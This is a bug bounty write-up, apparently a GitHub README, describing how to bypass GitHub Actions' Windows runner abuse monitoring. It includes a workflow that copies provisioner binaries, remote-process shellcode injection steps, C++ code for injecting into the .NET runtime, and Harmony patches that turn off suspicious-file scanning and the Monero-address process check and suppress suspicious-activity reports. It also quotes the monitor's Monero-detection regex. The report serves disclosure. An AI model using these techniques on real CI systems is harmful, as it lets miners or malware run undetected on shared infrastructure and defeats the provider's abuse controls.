

## What is it?
From July 11 to July 22, 2022, I worked on the old idea associated with an attempt to participate in a HackerOne bug bounty program.
This report related to vulnerability in Github Actions. HackerOne rewared me with 500$ and a t-shirt at August 2, 2022!

You can verify it in my profile: https://hackerone.com/StackOverflowExcept1on


## Table of contents
- [Bypassing `Virtual Environment Provisioner` restrictions to do something unexpected in GitHub Actions](#bypassing-virtual-environment-provisioner-restrictions-to-do-something-unexpected-in-github-actions)
  * [Prehistory](#prehistory)
  * [What is Virtual Environment Provisioner?](#what-is-virtual-environment-provisioner)
  * [My idea without going into the technical part](#my-idea-without-going-into-the-technical-part)
  * [How it's could be done?](#how-its-could-be-done)
  * [Debugging Virtual Environment Provisioner using TCP-server](#debugging-virtual-environment-provisioner-using-tcp-server)
  * [Proof of concept](#proof-of-concept)
  * [How to run PoC on GitHub Actions VM?](#how-to-run-poc-on-github-actions-vm)
  * [Conclusion](#conclusion)

## Bypassing `Virtual Environment Provisioner` restrictions to do something unexpected in GitHub Actions

I made the private repository that is located at https://github.com/StackOverflowExcept1on/how-to-hack-github-actions and contains source code.
If you can't access it, send me your GitHub username. So, I'll invite you.

As an alternative, I have attached the code of all projects, which maybe will useful at HackerOne.

### Prehistory

I got interested in writing GitHub Actions script for automation and came across an article:
[Crypto-mining attack in my GitHub actions through Pull Request](https://dev.to/thibaultduponchelle/the-github-action-mining-attack-through-pull-request-2lmc)
. It became interesting to me how exactly GitHub prevents such attacks. That's why I did this report.

### What is Virtual Environment Provisioner?

Every time you run GitHub Actions as a normal user on a virtual machine, a program called "Virtual Environment
Provisioner" is launches at the background


I had to use reverse RDP on your system to figure out this. So, all this report targets at `windows-latest` VMs.
Provisioner is located at `C:\actions\runner-provisioner-Windows` in file `provisioner.exe`

This program deals with the maintenance of the virtual machine, and I could not find it in the Open Source. I decided to
steal it's executable for analysis using the following actions:

[`.github/workflows/files.yml`](.github/workflows/files.yml)

```yaml
name: Give me files for reverse engineering
on:
  workflow_dispatch:

jobs:
  build:
    runs-on: windows-latest

    steps:
      - uses: actions/checkout@v3

      - name: Steal some files for me to analyze
        run: |
          Copy-Item C:\Windows\System32\kernel32.dll .\
          Copy-Item C:\actions\runner-provisioner-Windows\hostfxr.dll .\
          Copy-Item -Recurse C:\actions\runner-provisioner-Windows .\

      - uses: actions/upload-artifact@v3
        with:
          name: libraries
          path: |
            kernel32.dll
            hostfxr.dll

      - uses: actions/upload-artifact@v3
        with:
          name: program
          path: runner-provisioner-Windows
```

After getting the executable, I used [dnSpyEx](https://github.com/dnSpyEx/dnSpy) to analyze it and found many
interesting things


`provisioner.framework.dll` contains this classes, I also did screenshot of the decompiled code to show most important
things:

- `ActivityLogMonitorJob` - **reports suspicious activity**
  
- `HostsFileMonitorJob` - **checks that `C:\Windows\System32\Drivers\etc\hosts` not changed to block mining pools**
  
- `MachineHealthMonitorJob` - **sends some (CPU, RAM?) metrics over the network**
  
- `MachineInfoMonitorJob` - not sure
- `NetworkHealthMonitorJob` - checks that network is reachable
- `ProcessMonitorJob` - **checks if process has mining-related activity (arguments, process name)**
  
- `ProvjobdMonitorJob` - runs some golang executable file
- `SuspiciousFilesMonitorJob` - **recursively scans for malware/miners at the VM**
  

So, Virtual Environment Provisioner has security system to prevent abuse actions. If you try to kill `provisioner.exe`
GitHub Actions immediately stop your script.

### My idea without going into the technical part

The process `provisioner.exe` isn't isolated from custom scripts and runs as the user `runneradmin`. My idea is to
inject malicious code into this process right at runtime using custom script. This would allow me to change anything in
the existing security system against mining or abusing. Imagine we could change the functionality that sends CPU metrics
and set CPU usage to near zero. Then we bypass the other constraints and perform actions that should be detected by your
security system.

### How it's could be done?


At first need to perform shellcode injection. You can read about it here:
[Executing Shellcode in Remote Process](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection)

For this need to do following:
1. find `provisioner.exe` process id using `CreateToolhelp32Snapshot` and `Process32NextW`
2. get handle of process by id using `OpenProcess`
3. allocate virtual memory inside this process using `VirtualAllocEx`
4. write malicious shellcode bytes into allocated memory using `WriteProcessMemory`
5. create a thread with malicious code and set the thread's entry point as previously allocated block of memory
   using `CreateRemoteThread`
6. wait for result by calling `WaitForSingleObject`
7. check if inject was successful using `GetExitCodeThread`

I put this code into [`projects/cpp/app/codeinjector/src/main.cpp`](projects/cpp/app/codeinjector/src/main.cpp). So, you
can see how it was done

This injection is still not enough to get to c# code. I spent about a week while doing reverse engineering work dotnet
internals and found this
article: [Write a custom .NET host to control the .NET runtime from your native code](https://docs.microsoft.com/en-us/dotnet/core/tutorials/netcore-hosting)

It contains useful code that I used to produce my own injector to NET Core applications. I really couldn't solve this
problem for a long time. The first successful injector was written on May 7, 2021.

Well, I wrote module that is called `bootstrapper`. You again can see source code if you need at
[`projects/cpp/app/bootstrapper/src/main.cpp`](projects/cpp/app/bootstrapper/src/main.cpp)

How to inject into dotnet runtime?
1. extract C# DLLs into `%TEMP%` directory
2. find base address of `hostfxr.dll` library
3. find `hostfxr_get_runtime_delegate()` address
4. the most hard thing was obtain `fx_muxer_t::get_active_host_context()` function address

   This function isn't marked as exported. The only way to find it is to search through the machine code and find 2nd
   call instruction. After that need to do the same as the processor to calculate the address

   So, I used IDA Pro to locate where `fx_muxer_t::get_active_host_context()` is used.
   It's used in `hostfxr_get_runtime_properties` which is also exported! It allows me to get address of this function
   

   We need only the line:
   ```
   .text:00000001800135FA E8 E1 35 00 00 call fx_muxer_t::get_active_host_context(void)
   ```

   In x86_64 assembler each call instruction starts from opcode `0xE8`:
   see https://www.felixcloutier.com/x86/call

   `E1 35 00 00` is offset that determines where to jump, it's encoded as little endian.
   This instruction can be decoded as `[.text:00000001800135FA] call 0x35E1`

   So, we can calculate address of `fx_muxer_t::get_active_host_context()`:
   `0x00000001800135FA + 0x35E1 + 5 = 0x180016be0`
   - where `5` is size of call instruction
   - `0x00000001800135FA` is RIP register

   In IDA Pro we can jump to `0x180016be0` and make sure that address is really points to
  `fx_muxer_t::get_active_host_context()`:

   

   Now imagine if we write a program that does the same at runtime! It will just run through each byte and read the
   machine code until it finds 0xE8, and then calculate the address
   

   There is way that I used:
   ```cpp
   /// function pointer to `hostfxr_get_runtime_properties` (exported)
   auto hostfxr_get_runtime_properties_fptr = loader::GetExportByHash<hostfxr_get_runtime_properties_fn>(
       base,
       adler32::hash_fn_compile_time("hostfxr_get_runtime_properties")
   );

   /// look for 2-nd x86_64 `call` instruction (opcode 0xE8, size 5 bytes)
   /// based on code xrefs
   auto buf = reinterpret_cast<BYTE *>(hostfxr_get_runtime_properties_fptr);

   uint8_t count = 0;
   while (count != 2) {
       if (*buf++ == 0xE8) {
           count++;
       }
   }

   auto instructionAddress = reinterpret_cast<SIZE_T>(buf);
   auto functionAddress = instructionAddress + *reinterpret_cast<DWORD *>(buf) + 5;

   /// function pointer to `fx_muxer_t::get_active_host_context`
   auto get_active_host_context_fptr = reinterpret_cast<decltype(&fx_muxer_t::get_active_host_context)>(functionAddress);
   ```

5. call `fx_muxer_t::get_active_host_context()` to get active dotnet runtime context
6. call `hostfxr_get_runtime_delegate()` to get native function pointer to the requested runtime functionality. It's
   saved as `delegate`
7. obtain `load_assembly_and_get_function_pointer_fn()` using saved `delegate`
8. call `load_assembly_and_get_function_pointer_fn()` with C# AssemblyInfo to inject. It will produce entrypoint
   function to C++ code into C#
9. call entrypoint, in C# it's marked as `[UnmanagedCallersOnly]`

After successful injection I can use [Harmony](https://github.com/pardeike/Harmony) library to attach my code to any
function of `provisioner.exe`. I can insert my custom code at the beginning of any C# function, then cancel execution of
original function. Also, Harmony library allows performing custom code at end of function to replace its result.


### Debugging Virtual Environment Provisioner using TCP-server


After a successful injection, the code will connect to my computer on the port 1337 and will send logs to me.

I wrote C# library that intercepts function
```csharp
namespace Microsoft.AzureDevOps.Provisioner.Framework.Monitoring {
    class SuspiciousFilesMonitorJob {
        private bool SuspiciousSignatureExists(string directory, int currDepth) { ... }
    }
}
```

using code like this

```csharp
[HarmonyPatch(typeof(Microsoft.AzureDevOps.Provisioner.Framework.Monitoring.SuspiciousFilesMonitorJob))]
public class SuspiciousFilesMonitorJobPatches
{
    [HarmonyPrefix]
    [HarmonyPatch("SuspiciousSignatureExists")]
    static void SuspiciousSignatureExists(
        Microsoft.AzureDevOps.Provisioner.Framework.Monitoring.SuspiciousFilesMonitorJob __instance,
        string directory,
        int currDepth
    )
    {
        NetworkLogger.GetInstance().Write($"{__instance.Name} // SuspiciousSignatureExists({directory}, {currDepth})");
    }
}
```

The `NetworkLogger` will send all information to any IPv4 address.

I started a local server on GitHub Actions VM and just walked away for 15 minutes to get logs.



As you can see, intercepting of function works!

### Proof of concept

Okay, now let's try to do the following:
- bypass check for suspicious files (related to SuspiciousFilesMonitorJob)
- bypass processes checking and their arguments (related to ProcessMonitorJob)
- don't report about suspicious activity to GitHub host

As I showed earlier, there is such a function for recursively scanning directories
```csharp
namespace Microsoft.AzureDevOps.Provisioner.Framework.Monitoring {
    class SuspiciousFilesMonitorJob {
        private bool SuspiciousSignatureExists(string directory, int currDepth) { ... }
    }
}
```

Look at the screenshot above, it works like this:
```
SuspiciousSignatureExists(directory=@"D:\a", currDepth=0);
    SuspiciousSignatureExists(directory=@"D:\a\test-repo", currDepth=1);
        SuspiciousSignatureExists(directory=@"D:\a\test-repo\test-repo", currDepth=2);
            ...
```

Also let's look at the decompiled code to understand its logic:


This function will recursively go down through the directories until it reaches depth 5.
So, I wrote a HarmonyPatch to fix that and remove all checks!

```csharp
[HarmonyPatch(typeof(Microsoft.AzureDevOps.Provisioner.Framework.Monitoring.SuspiciousFilesMonitorJob))]
public class SuspiciousFilesMonitorJobPatches
{
    [HarmonyPrefix]
    [HarmonyPatch("SuspiciousSignatureExists")]
    static bool SuspiciousSignatureExists(
        Microsoft.AzureDevOps.Provisioner.Framework.Monitoring.SuspiciousFilesMonitorJob __instance,
        string directory,
        int currDepth,
        ref bool __result
    )
    {
        NetworkLogger.GetInstance().Write($"{__instance.Name} // SuspiciousSignatureExists({directory}, {currDepth})");
        __result = false; //no suspicious files

        //don't call SuspiciousFilesMonitorJob.SuspiciousSignatureExists(...)
        //now provisioner will not scan subfolders at all
        return false;
    }
}
```

Now this functions will stop scan and log it on `currDepth=0`. There is example output of this:
```
Suspicious Files Monitor // SuspiciousSignatureExists(directory=@"D:\a", currDepth=0)
```

By changing this behavior, the attacker could launch a miner, a trojan, anything prohibited on GitHub Actions!

As another example, I'll show you a way to bypass ProcessMonitorJob, but this requires reverse engineering

ProcessMonitorJob references to ScriptTaskValidator in Initialize function


Then ScriptTaskValidator creates List of IBadTokenProvider.
One provider is comes from the constructor, the second is static.
As a result, bad tokens are generated (`this.m_regexesToMatch`, `this.m_stringsToMatch`) to search for malicious processes


ScriptTaskValidator also has BaseBadTokenProvider, which is implemented in the same namespace.
For example, it can find the Monero address in the process arguments:


As I know Monero address length is 95 characters. So, regex `"4[1-9a-km-zA-HJ-NP-Z]{94}"` is related to XMR.
Next, we can see that these bad tokens are used in the method `HasBadParamOrArgument`:


Function signature looks like this:
```csharp
namespace GitHub.DistributedTask.Pipelines.Validation {
    class ScriptTaskValidator {
        public bool HasBadParamOrArgument(string exeAndArgs, out string matchedPattern, out string matchedToken) { ... }
    }
}
```

Then this function is finally called in ProcessMonitorJob:


I decided that I would not do anything bad and just demonstrate to you how to trigger security system and then my hook
bypass it's check. For example, I will replace the beginning of this function, then add Monero address to its
argument `exeAndArgs`. That functions will alreays. Now the function will mark all processes as malicious, I just would
log it's args and result for demo. At the end of the function, I will change the result to `false`. I don't want to get
ban from GitHub ;D

```csharp
[HarmonyPatch(typeof(GitHub.DistributedTask.Pipelines.Validation.ScriptTaskValidator))]
public class ScriptTaskValidatorPatches
{
    [HarmonyPrefix]
    [HarmonyPatch(nameof(GitHub.DistributedTask.Pipelines.Validation.ScriptTaskValidator.HasBadParamOrArgument))]
    static void HasBadParamOrArgument_Prefix(ref string exeAndArgs)
    {
        //trigger provisioner by appending XMR address to exeAndArgs
        exeAndArgs += " 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD";
    }

    [HarmonyPostfix]
    [HarmonyPatch(nameof(GitHub.DistributedTask.Pipelines.Validation.ScriptTaskValidator.HasBadParamOrArgument))]
    static void HasBadParamOrArgument_Postfix(string exeAndArgs, ref bool __result)
    {
        //checking result from original function HasBadParamOrArgument(...), it would be True for all processes
        NetworkLogger.GetInstance().Write($"ScriptTaskValidator // HasBadParamOrArgument({exeAndArgs}, ..., ...) = {__result}");
        __result = false; //set result to false to bypass provisioner check ;D
    }
}
```

There is example output after doing this patch:
```
ScriptTaskValidator // HasBadParamOrArgument(dotnet "C:\Program Files\dotnet\dotnet.exe" exec "C:\Program Files\dotnet\sdk\6.0.301\Roslyn\bincore\VBCSCompiler.dll" "-pipename:q1wL+usWKy9lMQy0zJFLX69E5zGeeP3NsF75bARkrok" 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(conhost \??\C:\Windows\system32\conhost.exe 0x4 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(cmd "C:\Windows\system32\cmd.EXE" /D /E:ON /V:OFF /S /C "CALL "D:\a\_temp\b6691e1d-9d87-4460-bf1f-42cf7bfa196d.cmd"" 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(python python  scripts\server.py 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(taskhostw taskhostw.exe 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
```

Such an attack may allow a Monero miner to be launched without reporting suspicious activity.
Speaking of suspicious activity, I can also replace the function that reports it, but I haven't tested that so as not to do anything banned on
the GitHub

Here is example code to do it:
```csharp
[HarmonyPatch(typeof(MachineManagement.Provisioning.MachineManagementClient))]
public class MachineManagementClientPatches
{
    [HarmonyPrefix]
    [HarmonyPatch(nameof(MachineManagement.Provisioning.MachineManagementClient.ReportSuspiciousActivityAsync))]
    static bool ReportSuspiciousActivityAsync(
        long requestId,
        byte[] postRegistrationAccessToken,
        string suspiciousActivity,
        string poolName,
        string instanceName,
        ref Task __result
    )
    {
        var token = Convert.ToHexString(postRegistrationAccessToken);
        NetworkLogger.GetInstance().Write($"MachineManagementClient // ReportSuspiciousActivityAsync({requestId}, {token}, {suspiciousActivity}, {poolName}, {instanceName})");
        __result = new Task(() => {
            //replace task with nothing
        }); 
        return false; //don't call MachineManagementClient.ReportSuspiciousActivityAsync(...)
    }
}
```

You can see full code at [`projects/csharp/patcher/patcher/Main.cs`](projects/csharp/patcher/patcher/Main.cs)

### How to run PoC on GitHub Actions VM?

I made a complete project which has the file [`.github/workflows/build.yml`](.github/workflows/build.yml) to do this.
You can upload it to GitHub, then it will automatically run action that's builds payload from sources, runs local python
server and exits after 15 minutes.

If you want to repeat this, you can do as in the screenshot:


### Conclusion

In theory, a hacker can do a lot of bad things knowing such an attack vector. I just showed a proof of concept that
allows a hacker to bypass Virtual Environment Provisioner restrictions to execute bad binaries without immediately ban
by your automatic security system.


